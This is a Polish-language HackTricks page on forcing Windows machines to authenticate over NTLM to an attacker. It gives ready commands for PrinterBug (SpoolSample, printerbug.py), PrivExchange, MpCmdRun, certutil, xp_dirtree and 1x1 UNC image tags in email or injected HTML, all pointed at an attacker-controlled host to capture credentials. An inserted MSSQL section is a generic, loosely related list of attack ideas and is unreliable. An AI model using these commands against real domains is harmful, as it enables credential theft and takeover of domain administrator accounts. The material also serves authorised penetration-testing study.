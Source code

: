 # Wymuś uprzywilejowaną autoryzację NTLM

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Pracujesz w **firmie zajmującej się cyberbezpieczeństwem**? Chcesz zobaczyć swoją **firmę reklamowaną w HackTricks**? A może chcesz mieć dostęp do **najnowszej wersji PEASS lub pobrać HackTricks w formacie PDF**? Sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* **Dołącz do** [**💬**](https://emojipedia.org/speech-balloon/) [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do repozytorium [hacktricks](https://github.com/carlospolop/hacktricks) i [hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) to **zbiór** zdalnych **wyzwalaczy autoryzacji** napisanych w C# przy użyciu kompilatora MIDL w celu uniknięcia zależności od firm trzecich.

## Nadużycie usługi Spooler

Jeśli usługa _**Print Spooler**_ jest **włączona**, można użyć już znanych poświadczeń AD, aby **poprosić** serwer drukarki kontrolera domeny o **aktualizację** nowych zadań drukowania i po prostu powiedzieć mu, aby **wysłał powiadomienie do jakiegoś systemu**.\
Należy zauważyć, że gdy drukarka wysyła powiadomienie do dowolnego systemu, musi się ona **uwierzytelnić** na tym **systemie**. Dlatego atakujący może sprawić, że usługa _**Print Spooler**_ uwierzytelnia się na dowolnym systemie, a usługa ta **użyje konta komputera** w tej autoryzacji.

### Wyszukiwanie serwerów Windows w domenie

Za pomocą PowerShella można uzyskać listę maszyn z systemem Windows. Serwery zazwyczaj mają priorytet, więc skupmy się na nich:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Wyszukiwanie nasłuchujących usług Spooler

Korzystając ze zmodyfikowanego narzędzia @mysmartlogin (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), sprawdź, czy usługa Spooler nasłuchuje:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Możesz również użyć rpcdump.py na systemie Linux i szukać protokołu MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Poproś usługę o uwierzytelnienie na dowolnym hoście

Możesz skompilować [**SpoolSample stąd**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
lub użyj [**dementor.py** od 3xocyte](https://github.com/NotMedic/NetNTLMtoSilverTicket) lub [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) jeśli korzystasz z systemu Linux.
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kombinowanie z nieograniczonym przekazywaniem

Jeśli atakujący już skompromitował komputer z [nieograniczonym przekazywaniem](unconstrained-delegation.md), atakujący może **zmusić drukarkę do uwierzytelnienia się na tym komputerze**. Ze względu na nieograniczone przekazywanie, **TGT** konta **komputera drukarki** zostanie **zapisany w pamięci** komputera z nieograniczonym przekazywaniem. Ponieważ atakujący już skompromitował ten host, będzie w stanie **odzyskać ten bilet** i go wykorzystać ([Przekazanie biletu](pass-the-ticket.md)).

## RCP Wymuszanie uwierzytelnienia

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Atak `PrivExchange` jest wynikiem błędu znalezionego w funkcji **PushSubscription serwera Exchange**. Ta funkcja pozwala na wymuszenie uwierzytelnienia serwera Exchange przez dowolnego użytkownika domeny posiadającego skrzynkę pocztową do dowolnego hosta dostarczonego przez klienta za pośrednictwem protokołu HTTP.

Domyślnie **usługa Exchange działa jako SYSTEM** i ma nadmiernie przyznane uprawnienia (w szczególności ma **uprawnienia WriteDacl w domenie przed aktualizacją kumulacyjną 2019**). Ten błąd można wykorzystać do umożliwienia **przekazywania informacji do LDAP, a następnie wydobycia bazy danych NTDS domeny**. W przypadkach, gdy przekazywanie do LDAP nie jest możliwe, ten błąd nadal może być wykorzystany do przekazywania i uwierzytelniania na innych hostach w domenie. Pomyślne wykorzystanie tego ataku natychmiastowo przyznaje dostęp do konta Administratora domeny z dowolnym uwierzytelnionym kontem użytkownika domeny.

## Wewnątrz systemu Windows

Jeśli już jesteś wewnątrz maszyny z systemem Windows, możesz zmusić system Windows do połączenia się z serwerem za pomocą uprzywilejowanych kont przy użyciu:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL

MSSQL (Microsoft SQL Server) to system zarządzania bazą danych opracowany przez firmę Microsoft. Jest szeroko stosowany w aplikacjach biznesowych do przechowywania i zarządzania danymi. Poniżej przedstawiam kilka przydatnych technik związanych z penetracją MSSQL.

#### 1. Słabe hasła

Wielu administratorów baz danych nadal używa słabych haseł do swoich kont MSSQL. Wykorzystaj narzędzia do łamania haseł, takie jak Hydra lub Medusa, aby przeprowadzić atak brute force i zdobyć dostęp do konta administratora.

#### 2. Słabe uprawnienia

Sprawdź, czy konta użytkowników mają nadmiarowe uprawnienia. Często zdarza się, że użytkownicy mają dostęp do funkcji, które nie są im potrzebne. Wykorzystaj te nadmiarowe uprawnienia, aby uzyskać dostęp do wrażliwych danych.

#### 3. Wykorzystanie podatności

Sprawdź, czy serwer MSSQL jest podatny na znane podatności. Możesz użyć narzędzi takich jak Metasploit, aby znaleźć i wykorzystać podatności w celu uzyskania dostępu do systemu.

#### 4. Ataki słownikowe

Wykorzystaj słownik ataków, aby przeprowadzić atak na konta użytkowników. Możesz użyć narzędzi takich jak SQLMap, aby automatycznie przeprowadzić atak słownikowy i zdobyć dostęp do konta.

#### 5. Ataki wstrzykiwania SQL

Sprawdź, czy aplikacja korzystająca z bazy danych MSSQL jest podatna na ataki wstrzykiwania SQL. Wykorzystaj narzędzia takie jak SQLMap, aby przetestować aplikację i znaleźć podatności.

#### 6. Ataki na serwer

Sprawdź, czy serwer MSSQL jest podatny na ataki sieciowe. Możesz użyć narzędzi takich jak Nmap, aby przeskanować serwer i znaleźć otwarte porty oraz podatności.

#### 7. Ataki na bazę danych

Sprawdź, czy baza danych MSSQL jest podatna na ataki. Możesz użyć narzędzi takich jak SQLMap, aby przetestować bazę danych i znaleźć podatności.

#### 8. Ataki na aplikację

Sprawdź, czy aplikacja korzystająca z bazy danych MSSQL jest podatna na ataki. Możesz użyć narzędzi takich jak Burp Suite, aby przetestować aplikację i znaleźć podatności.

#### 9. Ataki na dane

Sprawdź, czy dane przechowywane w bazie danych MSSQL są podatne na ataki. Możesz użyć narzędzi takich jak SQLMap, aby przetestować dane i znaleźć podatności.

#### 10. Ataki na infrastrukturę

Sprawdź, czy infrastruktura, na której działa serwer MSSQL, jest podatna na ataki. Możesz użyć narzędzi takich jak Nessus, aby przeskanować infrastrukturę i znaleźć podatności.
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
Lub skorzystaj z tej innej techniki: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Można użyć narzędzia certutil.exe (binarnego pliku podpisanego przez Microsoft) do wymuszenia uwierzytelniania NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## Wstrzykiwanie HTML

### Za pomocą poczty elektronicznej

Jeśli znasz **adres e-mail** użytkownika, który loguje się na maszynę, którą chcesz skompromitować, możesz po prostu wysłać mu **e-mail z obrazem 1x1**, takim jak
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
i kiedy go otworzy, spróbuje się uwierzytelnić.

### MitM

Jeśli możesz przeprowadzić atak typu MitM na komputerze i wstrzyknąć HTML na stronie, którą będzie widział, możesz spróbować wstrzyknąć obrazek o następującym wyglądzie na stronie:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Łamanie NTLMv1

Jeśli możesz przechwycić wyzwania NTLMv1, przeczytaj tutaj, jak je złamać.\
_Pamiętaj, że aby złamać NTLMv1, musisz ustawić wyzwanie Responder na "1122334455667788"_

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Pracujesz w **firmie zajmującej się cyberbezpieczeństwem**? Chcesz zobaczyć **reklamę swojej firmy w HackTricks**? A może chcesz mieć dostęp do **najnowszej wersji PEASS lub pobrać HackTricks w formacie PDF**? Sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* **Dołącz do** [**💬**](https://emojipedia.org/speech-balloon/) [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** mnie na **Twitterze** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do repozytorium [hacktricks](https://github.com/carlospolop/hacktricks) i [hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
